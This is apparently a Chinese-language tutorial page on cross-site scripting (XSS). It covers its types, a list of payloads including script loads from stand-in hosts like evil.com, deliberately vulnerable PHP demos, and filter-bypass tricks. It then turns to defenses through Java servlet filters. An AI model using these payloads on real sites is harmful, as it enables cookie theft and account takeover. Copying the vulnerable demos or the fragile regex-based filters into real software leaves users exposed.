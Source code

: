 ## XSS(跨站脚本)漏洞详解

1. XSS的原理和分类

    跨站脚本攻击XSS(Cross Site Scripting)，为了不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。XSS攻击针对的是用户层面的攻击！

    XSS分为：存储型 、反射型 、DOM型XSS

    * 存储型XSS：存储型XSS，持久化，代码是存储在服务器中的，如在个人信息或发表文章等地方，插入代码，如果没有过滤或过滤不严，那么这些代码将储存到服务器中，用户访问该页面的时候触发代码执行。这种XSS比较危险，容易造成蠕虫，盗窃cookie

        ![](xss/xss-type-store.png)

    * 反射型XSS：非持久化，需要欺骗用户自己去点击链接才能触发XSS代码（服务器中没有这样的页面和内容），一般容易出现在搜索页面

        ![](xss/xss-type-reflect.png)

    * DOM型XSS：不经过后端，DOM-XSS漏洞是基于文档对象模型(Document Objeet Model,DOM)的一种漏洞，DOM-XSS是通过url传入参数去控制触发的，其实也属于**反射型XSS**。 

        ```
        document.referer
        window.name
        location
        innerHTML
        documen.write
        ```

        ![](xss/xss-type-dom.png)
        如图，我们在URL中传入参数的值，然后客户端页面通过js脚本利用DOM的方法获得URL中参数的值，再通过DOM方法赋值给选择列表，该过程没有经过后端，完全是在前端完成的。所以，我们就可以在我们输入的参数上做手脚了。

2. XSS的攻击载荷

<script>标签：<script>标签是最直接的XSS有效载荷，脚本标记可以引用外部的JavaScript代码，也可以将代码插入脚本标记中

<script src=http://xxx.com/xss.js></script>  #引用外部的xss
<script> alert("hack")</script>   #弹出hack
<script>alert(document.cookie)</script> #弹出cookie
<img>标签：

<img  src=1  onerror=alert("hack")>
<img  src=1  onerror=alert(/hack/)>
<img  src=1  onerror=alert(document.cookie)>  #弹出cookie
<img  src=1  onerror=alert(123)>      注：对于数字，可以不用引号
<img  src="javascript:alert("XSS");">
<img  dynsrc="javascript:alert('XSS')">
<img  lowsrc="javascript:alert('XSS')">
<body>标签：可以使用onload属性或其他更加模糊的属性（如属性）在标记内部传递XSS有效内容background

<body onload=alert("XSS")>
<body background="javascript:alert("XSS")">
<iframe>标签：该<iframe>标签允许另一个HTML网页的嵌入到父页面。IFrame可以包含JavaScript，但是，请注意，由于浏览器的内容安全策略（CSP），iFrame中的JavaScript无法访问父页面的DOM。然而，IFrame仍然是非常有效的解除网络钓鱼攻击的手段。

<iframe src=”http://evil.com/xss.html”>
<input>标签：在某些浏览器中，如果标记的type属性<input>设置为image，则可以对其进行操作以嵌入脚本

<input type="image" src="javascript:alert('XSS');">
<link>标签：<link>标签，这是经常被用来连接外部的样式表可以包含的脚本

<link rel="stylesheet" href="javascript:alert('XSS');">
<table>标签：可以利用和标签的background属性来引用脚本而不是图像

<table background="javascript:alert('XSS')">
 
<td background="javascript:alert('XSS')">
<div>标签：该<div>标签，类似于<table>和<td>标签也可以指定一个背景，因此嵌入的脚本。

<div style="background-image: url(javascript:alert('XSS'))">
 
<div style="width: expression(alert('XSS'));">
<object>标签：该<object>标签可用于从外部站点脚本包含

<object type="text/x-scriptlet" data="http://hacker.com/xss.html">
XSS可以插在哪里？ 
用户输入作为script标签内容
用户输入作为HTML注释内容
用户输入作为HTML标签的属性名
用户输入作为HTML标签的属性值
用户输入作为HTML标签的名字
直接插入到CSS里
最重要的是，千万不要引入任何不可信的第三方JavaScript到页面里！

#用户输入作为HTML注释内容，导致攻击者可以进行闭合绕过
<!-- 用户输入 -->
<!-- --><script>alert('hack')</script><!-- -->
 
#用户输入作为标签属性名，导致攻击者可以进行闭合绕过
<div 用户输入="xx">  </div>
<div ></div><script>alert('hack')</script><div a="xx"> </div>
 
#用户输入作为标签属性值，导致攻击者可以进行闭合绕过
<div id="用户输入"></div>
<div id=""></div><script>alert('hack')</script><div a="x"></div>
 
#用户输入作为标签名，导致攻击者可以进行闭合绕过
<用户输入  id="xx" />
<><script>alert('hack')</script><b id="xx" />
 
#用户输入作为CSS内容，导致攻击者可以进行闭合绕过
<style>用户输入<style>
<style> </style><script>alert('hack')</script><style> </style>
XSS漏洞的挖掘 
黑盒测试

尽可能找到一切用户可控并且能够输出在页面代码中的地方，比如下面这些：

URL的每一个参数
URL本身
表单
搜索框
常见业务场景

重灾区：评论区、留言区、个人信息、订单信息等
针对型：站内信、网页即时通讯、私信、意见反馈
存在风险：搜索框、当前目录、图片属性等
白盒测试(代码审计)

关于XSS的代码审计主要就是从接收参数的地方和一些关键词入手。

PHP中常见的接收参数的方式有$_GET、$_POST、$_REQUEST等等，可以搜索所有接收参数的地方。然后对接收到的数据进行跟踪，看看有没有输出到页面中，然后看输出到页面中的数据是否进行了过滤和html编码等处理。

也可以搜索类似echo这样的输出语句，跟踪输出的变量是从哪里来的，我们是否能控制，如果从数据库中取的，是否能控制存到数据库中的数据，存到数据库之前有没有进行过滤等等。

大多数程序会对接收参数封装在公共文件的函数中统一调用，我们就需要审计这些公共函数看有没有过滤，能否绕过等等。

同理审计DOM型注入可以搜索一些js操作DOM元素的关键词进行审计。

XSS的攻击过程
反射型XSS漏洞：

Alice经常浏览某个网站，此网站为Bob所拥有。Bob的站点需要Alice使用用户名/密码进行登录，并存储了Alice敏感信息(比如银行帐户信息)。
Tom 发现 Bob的站点存在反射性的XSS漏洞
Tom编写了一个包含恶意代码的URL，并利用各种手段诱使Alice点击
Alice在登录到Bob的站点后，浏览了 Tom 提供的URL
嵌入到URL中的恶意脚本在Alice的浏览器中执行。此脚本盗窃敏感信息(cookie、帐号信息等信息)。然后在Alice完全不知情的情况下将这些信息发送给 Tom。
Tom 利用获取到的cookie就可以以Alice的身份登录Bob的站点，如果脚本的功更强大的话，Tom 还可以对Alice的浏览器做控制并进一步利用漏洞控制
存储型XSS漏洞：

Bob拥有一个Web站点，该站点允许用户发布信息/浏览已发布的信息。
Tom检测到Bob的站点存在存储型的XSS漏洞。
Tom在Bob的网站上发布一个带有恶意脚本的热点信息，该热点信息存储在了Bob的服务器的数据库中，然后吸引其它用户来阅读该热点信息。
Bob或者是任何的其他人如Alice浏览该信息之后,Tom的恶意脚本就会执行。
Tom的恶意脚本执行后，Tom就可以对浏览器该页面的用户发动一起XSS攻击
XSS漏洞的危害
从以上我们可以知道，存储型的XSS危害最大。因为他存储在服务器端，所以不需要我们和被攻击者有任何接触，只要被攻击者访问了该页面就会遭受攻击。而反射型和DOM型的XSS则需要我们去诱使用户点击我们构造的恶意的URL，需要我们和用户有直接或者间接的接触，比如利用社会工程学或者利用在其他网页挂马的方式。

那么，利用XSS漏洞可以干什么呢？



如果我们的JS水平一般的话，我们可以利用网上免费的XSS平台来构造代码实施攻击。

XSS漏洞的攻击测试
反射型XSS：
先放出源代码

//前端 1.html：
<html>
<head lang="en">
    <meta charset="UTF-8">
    <title>反射型XSS</title>
</head>
<body>
    <form action="action.php" method="post">
        <input type="text" name="name" />
        <input type="submit" value="提交">
    </form>
</body>
</html>
 
//后端 action.php：
<?php
    $name=$_POST["name"]; 
	echo $name;
?>
这里有一个用户提交的页面，用户可以在此提交数据，数据提交之后给后台处理



所以，我们可以在输入框中提交数据： <script>alert('hack')</script>  ，看看会有什么反应



页面直接弹出了hack的页面，可以看到，我们插入的语句已经被页面给执行了。
这就是最基本的反射型的XSS漏洞，这种漏洞数据流向是： 前端-->后端-->前端

存储型XSS：
先给出源代码

//前端：2.html
<html>
<head lang="en">
    <meta charset="UTF-8">
    <title>存储型XSS</title>
</head>
<body>
    <form action="action2.php" method="post">
        输入你的ID：  <input type="text" name="id" /> <br/>
        输入你的Name：<input type="text" name="name" /> <br/>
        <input type="submit" value="提交">
    </form>
</body>
</html>
//后端：action2.php
<?php
	$id=$_POST["id"];
	$name=$_POST["name"];
	mysql_connect("localhost","root","root");
	mysql_select_db("test");
	
	$sql="insert into xss value ($id,'$name')";
	$result=mysql_query($sql);
?>
//供其他用户访问页面：show2.php
<?php
	mysql_connect("localhost","root","root");
	mysql_select_db("test");
	$sql="select * from xss where id=1";
	$result=mysql_query($sql);
	while($row=mysql_fetch_array($result)){
		echo $row['name'];
	}
?>
这里有一个用户提交的页面，数据提交给后端之后，后端存储在数据库中。然后当其他用户访问另一个页面的时候，后端调出该数据，显示给另一个用户，XSS代码就被执行了。



我们输入 1   和 <script>alert(\'hack\')</script>   ，注意，这里的hack的单引号要进行转义，因为sql语句中的$name是单引号的，所以这里不转义的话就会闭合sql语句中的单引号。不然注入不进去。提交了之后，我们看看数据库



可以看到，我们的XSS语句已经插入到数据库中了
然后当其他用户访问 show2.php 页面时，我们插入的XSS代码就执行了。
存储型XSS的数据流向是：前端-->后端-->数据库-->后端-->前端



DOM型XSS：
先放上源代码

// 前端3.html
<html>
<head lang="en">
    <meta charset="UTF-8">
    <title>DOM型XSS</title>
</head>
<body>
    <form action="action3.php" method="post">
        <input type="text" name="name" />
        <input type="submit" value="提交">
    </form>
</body>
</html>
// 后端action3.php
<?php
  $name=$_POST["name"];
?>
<input id="text" type="text" value="<?php echo $name; ?>"/>
<div id="print"></div>
<script type="text/javascript">
  var text=document.getElementById("text");
  var print=document.getElementById("print");
  print.innerHTML=text.value;  // 获取 text的值，并且输出在print内。这里是导致xss的主要原因。
</script>
这里有一个用户提交的页面，用户可以在此提交数据，数据提交之后给后台处理

我们可以输入 <img src=1 οnerrοr=alert('hack')>     ，然后看看页面的变化



页面直接弹出了 hack 的页面，可以看到，我们插入的语句已经被页面给执行了。
这就是DOM型XSS漏洞，这种漏洞数据流向是： 前端-->浏览器

XSS的过滤和绕过
前面讲sql注入的时候，我们讲过程序猿对于sql注入的一些过滤，利用一些函数（如：preg_replace()），将组成sql语句的一些字符给过滤，以防止注入。那么，程序猿也可以用一些函数将构成xss代码的一些关键字符给过滤了。可是，道高一尺魔高一丈，虽然过滤了，但是还是可以进行过滤绕过，以达到XSS攻击的目的。

一：区分大小写过滤标签

先放上源代码

//前端 1.html：
<html>
<head lang="en">
    <meta charset="UTF-8">
    <title>反射型XSS</title>
</head>
<body>
    <form action="action4.php" method="post">
        <input type="text" name="name" />
        <input type="submit" value="提交">
    </form>
</body>
</html>
 
//后端 action4.php：
<?php
$name=$_POST["name"]; 
if($name!=null){
	$name=preg_replace("/<script>/","",$name);      //过滤<script>
	$name=preg_replace("/<\/script>/","",$name);   //过滤</script>
	echo $name; 
}
?>
绕过技巧：可以使用大小写绕过  <scripT>alert('hack')</scripT>



二：不区分大小写过滤标签

先放上源代码

这个和上面的代码一模一样，只不过是过滤的时候多加了一个 i ，以不区分大小写

$name=preg_replace("/<script>/i","",$name);    //不区分大小写过滤 <script>
$name=preg_replace("/<\/script>/i","",$name);  //不区分大小写过滤 </script>
绕过技巧：可以使用嵌套的script标签绕过   <scr<script>ipt>alert('hack')</scr</script>ipt>

三：不区分大小写，过滤之间的所有内容

先放上源代码

这个和上面的代码一模一样，只不过是过滤的时候过滤条件发生了变化 

$name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] ); //过滤了<script  及其之间的所有内容
虽然无法使用<script>标签注入XSS代码，但是可以通过img、body等标签的事件或者 iframe 等标签的 src 注入恶意的 js 代码。

payload：  <img src=1 οnerrοr=alert('hack')>

我们可以输入 <img src=1 οnerrοr=alert('hack')>     ，然后看看页面的变化



XSS的防御
XSS防御的总体思路是：对用户的输入(和URL参数)进行过滤，对输出进行html编码。也就是对用户提交的所有内容进行过滤，对url中的参数进行过滤，过滤掉会导致脚本执行的相关内容；然后对动态输出到页面的内容进行html编码，使脚本无法在浏览器中执行。

对输入的内容进行过滤，可以分为黑名单过滤和白名单过滤。黑名单过滤虽然可以拦截大部分的XSS攻击，但是还是存在被绕过的风险。白名单过滤虽然可以基本杜绝XSS攻击，但是真实环境中一般是不能进行如此严格的白名单过滤的。

对输出进行html编码，就是通过函数，将用户的输入的数据进行html编码，使其不能作为脚本运行。

如下，是使用php中的htmlspecialchars函数对用户输入的name参数进行html编码，将其转换为html实体

#使用htmlspecialchars函数对用户输入的name参数进行html编码，将其转换为html实体
$name = htmlspecialchars( $_GET[ 'name' ] );
XSS跨站脚本攻击在Java开发中防范的方法
1. 防堵跨站漏洞，阻止攻击者利用在被攻击网站上发布跨站攻击语句不可以信任用户提交的任何内容，首先代码里对用户输入的地方和变量都需要仔细检查长度和对”<”,”>”,”;”,”’”等字符做过滤；其次任何内容写到页面之前都必须加以encode，避免不小心把html tag 弄出来。这一个层面做好，至少可以堵住超过一半的XSS 攻击。

2. Cookie 防盗

首先避免直接在cookie 中泄露用户隐私，例如email、密码等等。其次通过使cookie 和系统ip 绑定来降低cookie 泄露后的危险。这样攻击者得到的cookie 没有实际价值，不可能拿来重放。

3. 尽量采用POST 而非GET 提交表单

POST 操作不可能绕开javascript 的使用，这会给攻击者增加难度，减少可利用的

跨站漏洞。

4. 严格检查refer

检查http refer 是否来自预料中的url。这可以阻止第2 类攻击手法发起的http 请求，也能防止大部分第1 类攻击手法，除非正好在特权操作的引用页上种了跨站访问。

5. 将单步流程改为多步，在多步流程中引入效验码

多步流程中每一步都产生一个验证码作为hidden 表单元素嵌在中间页面，下一步操作时这个验证码被提交到服务器，服务器检查这个验证码是否匹配。

首先这为第1 类攻击者大大增加了麻烦。其次攻击者必须在多步流程中拿到上一步产生的效验码才有可能发起下一步请求，这在第2 类攻击中是几乎无法做到的。

6. 引入用户交互

简单的一个看图识数可以堵住几乎所有的非预期特权操作。

7. 只在允许anonymous 访问的地方使用动态的javascript。

8. 对于用户提交信息的中的img 等link，检查是否有重定向回本站、不是真的图片等

可疑操作。

9. 内部管理网站的问题

很多时候，内部管理网站往往疏于关注安全问题，只是简单的限制访问来源。这种网站往往对XSS 攻击毫无抵抗力，需要多加注意。安全问题需要长期的关注，从来不是一锤子买卖。XSS 攻击相对其他攻击手段更加隐蔽和多变，和业务流程、代码实现都有关系，不存在什么一劳永逸的解决方案。此外，面对XSS，往往要牺牲产品的便利性才能保证完全的安全，如何在安全和便利之间平衡也是一件需要考虑的事情。

web应用开发者注意事项：

1.对于开发者，首先应该把精力放到对所有用户提交内容进行可靠的输入验证上。这些提交内容包括URL、查询关键

字、http头、post数据等。只接受在你所规定长度范围内、采用适当格式、你所希望的字符。阻塞、过滤或者忽略其它的

任何东西。

2.保护所有敏感的功能，以防被bots自动化或者被第三方网站所执行。实现session标记（session tokens）、

CAPTCHA系统或者HTTP引用头检查。

3.如果你的web应用必须支持用户提供的HTML，那么应用的安全性将受到灾难性的下滑。但是你还是可以做一些事来

保护web站点：确认你接收的HTML内容被妥善地格式化，仅包含最小化的、安全的tag（绝对没有JavaScript），去掉任何

对远程内容的引用（尤其是样式表和JavaScript）。为了更多的安全，请使用httpOnly的cookie。

XSS跨站脚本攻击漏洞的解决
解决思路：

第一、控制脚本注入的语法要素。比如:JavaScript离不开:“<”、“>”、“(”、“）”、“;”...等等，我们只需要在输入或输出时对其进行字符过滤或转义处理就即可。一般我们会采用转义的方式来处理，转义字符是会使用到HTML的原始码，因为原始码是可以被浏览器直接识别的，所以使用起来非常方便。允许可输入的字符串长度限制也可以一定程度上控制脚本注入。

第二、所有的过滤、检测、限制等策略，建议在Web Server那一端去完成，而不是使用客户端的JavaScript或者VBScript去做简单的检查。因为真正的攻击者可以绕过你精心设计制作的客户端进行过滤、检测或限制手段。

出于全面的考虑，决定直接在后台进行过滤。

解决方案：

新增两个过滤器类：

public class XssFilter implements Filter {
 
    @Override
    public void destroy() {
    }
    /**
     * 过滤器用来过滤的方法
     */
    @Override
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
        //包装request
        XssHttpServletRequestWrapper xssRequest = new XssHttpServletRequestWrapper((HttpServletRequest) request);
        chain.doFilter(xssRequest, response);
    }
    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
    }
}
public class XssHttpServletRequestWrapper extends HttpServletRequestWrapper {
    HttpServletRequest orgRequest = null;
 
    public XssHttpServletRequestWrapper(HttpServletRequest request) {
        super(request);
    }
    /**
     * 覆盖getParameter方法，将参数名和参数值都做xss过滤。
     * 如果需要获得原始的值，则通过super.getParameterValues(name)来获取
     * getParameterNames,getParameterValues和getParameterMap也可能需要覆盖
     */
    @Override
    public String getParameter(String name) {
        String value = super.getParameter(xssEncode(name));
        if (value != null) {
            value = xssEncode(value);
        }
        return value;
    }
    @Override
    public String[] getParameterValues(String name) {
        String[] value = super.getParameterValues(name);
        if(value != null){
            for (int i = 0; i < value.length; i++) {
                value[i] = xssEncode(value[i]);
            }
        }
        return value;
    }
    @Override
    public Map getParameterMap() {
        return super.getParameterMap();
    }
    /**
     * 将容易引起xss漏洞的半角字符直接替换成全角字符 在保证不删除数据的情况下保存
     * @return 过滤后的值
     */
    private static String xssEncode(String value) {
        if (value == null || value.isEmpty()) {
            return value;
        }
        value = value.replaceAll("eval\\((.*)\\)", "");
        value = value.replaceAll("[\\\"\\\'][\\s]*javascript:(.*)[\\\"\\\']", "\"\"");
        value = value.replaceAll("(?i)<script.*?>.*?<script.*?>", "");
        value = value.replaceAll("(?i)<script.*?>.*?</script.*?>", "");
        value = value.replaceAll("(?i)<.*?javascript:.*?>.*?</.*?>", "");
        value = value.replaceAll("(?i)<.*?\\s+on.*?>.*?</.*?>", "");
        return value;
    }
}
web.xml中添加过滤：

<filter>
  <filter-name>XssFilter</filter-name>
  <filter-class>XXXXX(该类的路径).XssFilter</filter-class>
</filter>
<filter-mapping>
  <filter-name>XssFilter</filter-name>
  <url-pattern>/*</url-pattern>
</filter-mapping>
OK了，需要自定义拦截规则的只要修改XssHttpServletRequestWrapper 类的xssEncode方法即可。

web项目解决XSS跨站脚本漏洞
maven项目解决方式需要配置如下：

一、web.xml

<!--防Xss start-->
	<filter>
        <filter-name>XSSChecker</filter-name>
        <filter-class>com.watchme.login.filter.RedSwallowFilterNew</filter-class>
        <init-param>
            <param-name>redswallow.filter.plugin.htmlescapechar.config.includeParamPatterns</param-name>
            <param-value>service,staffId,STAFF_ID,cond_SERIAL_NUMBER,default_pagin_pagesize,EXEC_TIME,FINISH_DATE,sp,Listener,CLIENT_WIDTH,lh_type,listener,ROUTE_VALUE,contextCode,_tradeBase
            </param-value>
        </init-param>
        <init-param>
            <param-name>redswallow.filter.charset</param-name>
            <param-value>GBK</param-value>
        </init-param>
	 </filter>
	 <filter-mapping>
        <filter-name>XSSChecker</filter-name>
        <url-pattern>/*</url-pattern>
	 </filter-mapping>
	 
	 <filter>
        <filter-name>CharacterFilter</filter-name>
        <filter-class>com.watchme.login.filter.CharacterFilter</filter-class>
        <init-param>
          <param-name>unCheckURLS</param-name>
          <param-value>
             (/.*hotspot/saveHotspot*$)|(/.*product/editProductManager*$)|(/.*product/addProductManager*$)
             |(/.*product/addMarketActivity*$)|(/.*product/editProductManager*$)|(/.*product/addProjectCase*$)
             |(/.*product/editProductManager*$) |(/.*product/productSearchDetail*$)|(/.*product/editProductInfo*$)
             |(/.*\.js$)|(/.*\.css$)|(/.*\.png$)|(/.*\.jpg$)|(/.*\.gif$)|(/.*\.ico$)
          </param-value>
        </init-param>
	 </filter>
	 <!--防Xss end-->
二、pom.xml

<!--防Xss--> 
		<dependency>  
		    <groupId>org.redswallow</groupId>  
		    <artifactId>redswallow</artifactId>  
		    <version>0.9.1</version>  
		</dependency> 
三、java类

package com.cs.core.common.filter;
 
import java.io.IOException;
import javax.servlet.FilterChain;
import javax.servlet.FilterConfig;
import javax.servlet.ServletException;
import javax.servlet.ServletRequest;
import javax.servlet.ServletResponse;
import javax.servlet.http.HttpServletRequest;
 
import org.redswallow.filter.RedSwallowFilter;
 
/**
 * @ClassName: RedSwallowFilterNew
 * @Description: XSS过滤器
 * @author 
 */
public class RedSwallowFilterNew extends RedSwallowFilter
{
    
    @Override
    public void init(FilterConfig filterConfig)
        throws ServletException
    {
        super.init(filterConfig);
    }
    
    @Override
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain)
        throws IOException, ServletException
    {
        HttpServletRequest httpRequest = (HttpServletRequest)request;
        String url = httpRequest.getRequestURI();
        if (url.indexOf("/ueditor/jsp/")!=-1)
        {
            System.out.println("hi i come in don't be warry!");
            chain.doFilter(request, response);
        }
        else
        {
            super.doFilter(request, response, chain);
        }
    }
    
    @Override
    public void destroy()
    {
        super.destroy();
    }
    
}
package com.ailk.jike.common.filter;
 
import java.io.IOException;
import java.util.Enumeration;
import java.util.Map;
import java.util.StringTokenizer;
 
import javax.servlet.Filter;
import javax.servlet.FilterChain;
import javax.servlet.FilterConfig;
import javax.servlet.ServletException;
import javax.servlet.ServletRequest;
import javax.servlet.ServletResponse;
import javax.servlet.http.HttpServletRequest;
 
import com.ailk.jike.common.utils.CheckNull;
 
/**
 * 部分字符过滤
 */
public class CharacterFilter implements Filter {
 
    private String unCheckURLS;
 
    @Override
    @SuppressWarnings("unchecked")
    public void doFilter(ServletRequest req, ServletResponse res, FilterChain chain) throws IOException, ServletException {
        HttpServletRequest request = (HttpServletRequest) req;
        request.setCharacterEncoding("UTF-8");
        if (!request.getRequestURI().matches(unCheckURLS)) {
            Enumeration<String> enumerator = req.getParameterNames();
            Map<?, ?> pMap = req.getParameterMap();
            while (enumerator.hasMoreElements()) {
                String paraName = enumerator.nextElement();
                String[] value = (String[]) pMap.get(paraName);
                if (value.length == 0) {
                    continue;
                }
                for (int i = 0; i < value.length; i++) {
                    value[i] = filterString(value[i]);
                }
            }
        }
        chain.doFilter(req, res);
    }
 
    @Override
    public void init(FilterConfig filterconfig) throws ServletException {
        StringBuffer result = new StringBuffer();
        for (StringTokenizer token = new StringTokenizer(filterconfig.getInitParameter("unCheckURLS"), "\n"); token
                .hasMoreTokens(); result.append(token.nextToken().trim()));
        unCheckURLS = result.toString();
    }
 
    @Override
    public void destroy() {
    }
 
    /**
     * 过滤字符集
     * 
     * @param inputStr
     *            需要过滤的字符串
     * @return 过滤后的字符串
     */
    private String filterString(String inputStr) {
    
       if(CheckNull.isNull(inputStr)){
    	   return inputStr;
       }
        inputStr = convertHtmlZy(inputStr);
        StringBuffer sb = new StringBuffer();
        for (int i = 0; i < inputStr.length(); i++) {
            char aChar = inputStr.charAt(i);
            switch (aChar) {
                case '>':
                    sb.append('＞');// 全角大于号
                    break;
                case '<':
                    sb.append('＜');// 全角小于号
                    break;
               /* case '\'':
                    sb.append('‘');// 全角单引号
                    break;
                case '\"':
                    sb.append('“');// 全角双引号
                    break;*/
                case '&':
                sb.append('＆');// 全角
                break;
               /* case '[':
                    sb.append('【');// 全角
                    break;
                case ']':
                    sb.append('】');// 全角
                    break;*/
                // case '\\':
                // sb.append('＼');// 全角斜线
                // break;
                /*case '#':
                    sb.append('＃');// 全角井号
                    break;
                case ';':
                    sb.append('；');// ;转化为；
                    break;*/
                default:
                    sb.append(aChar);
                    break;
            }
        }
        return sb.toString();
    }
 
    /**
     * 将转义字符转换成相应的广角字符
     * 
     * @param inputStr
     * @return
     */
    public String convertHtmlZy(String inputStr) {
        if (!CheckNull.isNull(inputStr)) {
            String temp = inputStr.toLowerCase();
            if (-1 != temp.indexOf("&amp")) {
                temp = temp.replaceAll("&amp", "＆");
            } else if (-1 != temp.indexOf("&gt")) {
                temp = temp.replaceAll("&gt", "＞");
            } else if (-1 != temp.indexOf("&lt")) {
                temp = temp.replaceAll("&lt", "＜");
            } else if (-1 != temp.indexOf("&quot")) {
                temp = temp.replaceAll("&quot", "“");
            } else if (-1 != temp.indexOf("&apos")) {
                temp = temp.replaceAll("&apos", "‘");
            } else {
                temp = inputStr;
            }
            return temp;
 
        }
        return inputStr;
 
    }
}